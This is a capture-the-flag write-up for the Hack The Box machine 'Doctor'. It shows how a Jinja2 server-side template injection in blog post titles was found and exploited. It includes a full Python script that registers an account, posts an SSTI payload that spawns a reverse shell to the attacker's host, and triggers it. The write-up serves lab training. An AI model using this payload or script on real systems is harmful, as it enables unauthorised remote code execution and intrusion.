


HTB Doctor

We start out with the usual nmap scan

Points of interest here are a web server on port 80 and some sort of splunk server running on 8089

We're not able to pull much info out of the splunk interface, since all the dirs require creds.
The contact us page on the webserver has a link to the domain doctors.htb , this was sort of login portal

After creating a new account and logging in, there is a page to create a new post/comment, and an /archive page
to display these comments.
The website only allows us to create a user thats valid for 20m, this became a pain as I was testing commands.
I opted to write a simple python script to generate a new account, and upload a post with our injection.
The following code will randomly generate a string, register a new account with that string, and login.
#!/usr/bin/python3
from pwn import *
import requests, time, random, string
my_ip = "10.10.14.29"
my_port = "8000"
reg_url = 'http://doctors.htb/register'
login_url = 'http://doctors.htb/login'
home_url = 'http://doctors.htb/home'
inject_url = 'http://doctors.htb/post/new'
archive_url = 'http://doctors.htb/archive'
def get_random_string(length):
letters = string.ascii_lowercase
result_str = ''.join(random.choice(letters) for i in range(length))
return result_str
user = get_random_string(6).capitalize()
email = user + "@yahoo.com"
# the data for our 3 post requests, fields copied from burpsuite after manual tests
reg_dict = { 'username': user, 'email': email, 'password': 'test', 'confirm_password': 'test', 'submit': 'Sign+Up'}
login_dict = { 'email': email, 'password': 'test', 'submit': 'Login'}
inject_dict = { 'title': exploit, 'content': 'Hello World', 'submit': 'Post' }
with requests.Session() as session:
# Attempt to hit the register endpoint and create an account
get = session.get(reg_url)
post = session.post(reg_url, data=reg_dict)
if "Your account has been created, with a time limit of twenty minutes!" not in post.text:
print("[-] Account creation failed.. exiting")
exit(0)
print("[+] Created account " + email)
# Attempt to login with our new creds
login = session.post(login_url, data=login_dict)
if "Logout" not in login.text:
print("[-] Login failed.. exiting")
exit(0)
print("[+] Login success")
After some enumeration, it became apparent that the posts were not being sanitized whatsoever, and we can directly inject html. The challenge now becomes how can we inject html such that when
it gets executed we receive a reverse shell.
I found an awesome html injection resource here
Initially I tried the basic jinja2 injection, trying to see if we can get the server to execute {4*4*4} on the archives page,
if successfull we should see the number 64 presented to us.
We can see on the archives page source that our code is inside
of both a title and item bracket, so our injection will start out closing those first.
After injecting
</title> </item> {4*4*4}
The source code should look like
<item><title> </item></title> {4*4*4}</item></title>
We can see the expected output, 64, on the archives page

As well as the expected source code after closing our tags
Further down the list there is a popen() method where it appears we can run shell commands.

I successfully attempted it with the /usr/bin/whoami command and got a response back. My
next step was to see if we can run bash. It turned out successful and we got the shell back
From here I threw in our successful injection into the python script and we arrive at the final code
#!/usr/bin/python3
from pwn import *
import requests, time, random, string
my_ip = "10.10.14.29"
my_port = "8000"
reg_url = 'http://doctors.htb/register'
login_url = 'http://doctors.htb/login'
home_url = 'http://doctors.htb/home'
inject_url = 'http://doctors.htb/post/new'
archive_url = 'http://doctors.htb/archive'
def get_random_string(length):
letters = string.ascii_lowercase
result_str = ''.join(random.choice(letters) for i in range(length))
return result_str
user = get_random_string(6).capitalize()
email = user + "@yahoo.com"
# Exploit the SSTI by calling Popen without guessing the offset
# https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
exploit = ""
exploit += " "
exploit += "{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}"
exploit += "{{x()._module.__builtins__['__import__']('os').popen(\"python3 -c 'import socket,subprocess,os;"
exploit += "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
exploit += "s.connect((\\\""
exploit += my_ip + "\\\","
exploit += my_port + ")); "
exploit += "os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);"
exploit += "p=subprocess.call([\\\"/bin/bash\\\", \\\"-i\\\"]);'\").read().zfill(417)}}{%endif%}{% endfor %}"
# the data for our 3 post requests, fields copied from burpsuite after manual tests
reg_dict = { 'username': user, 'email': email, 'password': 'test', 'confirm_password': 'test', 'submit': 'Sign+Up'}
login_dict = { 'email': email, 'password': 'test', 'submit': 'Login'}
inject_dict = { 'title': exploit, 'content': 'Hello World', 'submit': 'Post' }
with requests.Session() as session:
# Attempt to hit the register endpoint and create an account
get = session.get(reg_url)
post = session.post(reg_url, data=reg_dict)
if "Your account has been created, with a time limit of twenty minutes!" not in post.text:
print("[-] Account creation failed.. exiting")
exit(0)
print("[+] Created account " + email)
# Attempt to login with our new creds
login = session.post(login_url, data=login_dict)
if "Logout" not in login.text:
print("[-] Login failed.. exiting")
exit(0)
print("[+] Login success")
# Create our post with exploit string
injection = session.post(inject_url, data=inject_dict)
if "Your post has been created!" not in injection.text:
print("[-] Post creation failed.. exiting")
exit(0)
print("[+] Post created successfully")
# Startup listener and trigger our injected code
l = listen(my_port)
time.sleep(2)
print("[+] Querying /archives to trigger shell")
try:
archive = session.get(archive_url, timeout=0.5)
except:
l.interactive()
Our final code will register a new account under a random string, login, create a post with our bash injection, startup a nc listener, and then finally
query the /archives page to trigger the connection. The end result is a user
shell as web on doctor.